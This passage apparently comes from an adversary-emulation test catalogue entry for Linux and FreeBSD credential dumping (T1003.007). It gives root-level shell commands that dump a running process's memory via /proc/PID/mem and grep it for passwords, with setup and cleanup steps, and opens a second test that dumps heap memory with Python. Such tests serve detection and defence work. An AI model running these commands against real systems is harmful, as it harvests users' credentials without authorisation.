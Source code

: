 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
MEM_START=$(head -n 5 /proc/"${PID}"/map | tail -1 | cut -d' ' -f1)
MEM_STOP=$(head -n 5 /proc/"${PID}"/map | tail -1 | cut -d' ' -f2)
MEM_SIZE=$(echo $(($MEM_STOP-$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
strings "#{output_file}" | grep -i PASS
```

#### Cleanup Commands:

```sh
rm -f "#{output_file}"
```

#### Dependencies: Run with `sh`!

##### Description: Script to launch target process must exist

##### Check Prereq Commands:

```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```

##### Get Prereq Commands:

```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```

<br/>
<br/>

## Atomic Test #3 - Dump individual process memory with Python (Local)

Using `/proc/$PID/mem`, where $PID is the target process ID, use a Python script to
copy a process's heap memory to an external file so it can be searched or exfiltrated later.
On FreeBSD procfs must be mounted.

**Supported Platforms:** Linux

**auto_generated_guid:** 437b2003-a20d-4ed8-834c-4964f24eec63

#### Inputs:

| Name          | Description                                     | Type   | Default Value                                  |
| ------------- | ----------------------------------------------- | ------ | ---------------------------------------------- |
| output_file   | Path where captured results will be placed      | path   | /tmp/T1003.007.bin                             |
| script_path   | Path to script generating the target process    | path   | /tmp/T1003.007.sh                              |
| python_script | Path to script generating the target process    | path   | PathToAtomicsFolder/T1003.007/src/dump_heap.py |
| pid_term      | Unique string to use to identify target process | string | T1003.007                                      |
